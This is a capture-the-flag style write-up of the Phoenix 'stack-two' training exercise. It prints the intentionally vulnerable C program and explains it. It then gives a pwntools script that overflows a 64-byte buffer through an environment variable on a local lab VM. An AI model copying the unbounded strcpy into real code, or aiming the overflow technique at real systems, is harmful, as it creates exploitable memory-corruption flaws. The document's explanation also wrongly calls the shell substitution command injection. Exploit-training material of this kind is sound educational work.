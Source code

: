 ## Stack-Two

![](https://Cyberguru1.github.io/posts/phoenix/files/st2_header.png)

The source code provided:

### Source Code
---

```
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```
### Let's Dig in the code:
---
- The main() function is the entry point of the program.

- Inside the main() function, there is a definition of a structure named locals. It contains two members: buffer, an array of characters with a size of 64, and changeme, a volatile integer.

- A ptr variable of type char* is declared.

- The program prints the welcome message using printf().

- The program retrieves the value of the environment variable "ExploitEducation" using getenv() and assigns it to the ptr variable. If the variable is not set, an error message is displayed using errx().

- The changeme variable is initialized to 0.

- The strcpy() function is used to copy the value of ptr into locals.buffer. This is potentially unsafe since strcpy() does not perform bounds checking.

- After the strcpy() call, the program checks if changeme is equal to 0x0d0a090a. If true, it outputs a success message.

- If changeme is not equal to 0x0d0a090a, it displays a message showing the current value of changeme and the expected value.

- Finally, the program exits with a status code of 0.

### Solution
---
This challenge is very simlar to stack level one, but in this challenge we need to overflow the buffer, change the `changeme` struct variable to `0x0d0a090a` all from the environmental variable, using pwntools we could
accomplish this

```
#!/usr/bin/python
## script by Hamza Saidu
## cyberguru


from pwn import *

# connecting to the remote phoenix server
s = ssh(host='localhost', user='user', password='user', port=2222)

# sending exploit

message ="*"*20 + "setting environmental variable" + "*"*20
env_var = "ExploitEducation=$(python3 -c \"print('A'*64)\")$(echo '\x0a\x09\x0a\x0d')"
run_prog = "/opt/phoenix/amd64/stack-two"

print(s.run(f"printenv;echo {message};export {env_var};printenv;{run_prog}").recvall().decode())

```

Explanaiton of the code
---

```
from pwn import *
```
- The pwn library is imported, which provides functions for binary exploitation and interaction with remote services.

```
# connecting to the remote phoenix server
s = ssh(host='localhost', user='user', password='user', port=2222)
```
- An SSH connection is established to a server running on localhost with the username "user," password "user," and port 2222.

```
message ="*"*20 + "setting environmental variable" + "*"*20
```
- A string message is created, indicating the intention to set an environmental variable.

```
env_var = "ExploitEducation=$(python3 -c \"print('A'*64)\")$(echo '\x0a\x09\x0a\x0d')"
```
- An environmental variable named "ExploitEducation" is defined. The value of this variable is constructed using a command injection technique. It assigns the output of a Python command (print('A'*64)) to the variable, which generates a string of 64 'A' characters.

```
run_prog = "/opt/phoenix/amd64/stack-two"
```
- A variable named run_prog is set to the path of the program that will be executed on the remote server (/opt/phoenix/amd64/stack-two).

```
print(s.run(f"printenv;echo {message};export {env_var};printenv;{run_prog}").recvall().decode())

```
- The script is then executed on the remote server. It prints the current environment variables (printenv), displays the message, exports the env_var, prints the updated environment variables, and finally executes the program run_prog with the output of the command execution is received and printed.

So running the program we have:

![](https://Cyberguru1.github.io/posts/phoenix/files/st2_result.png)

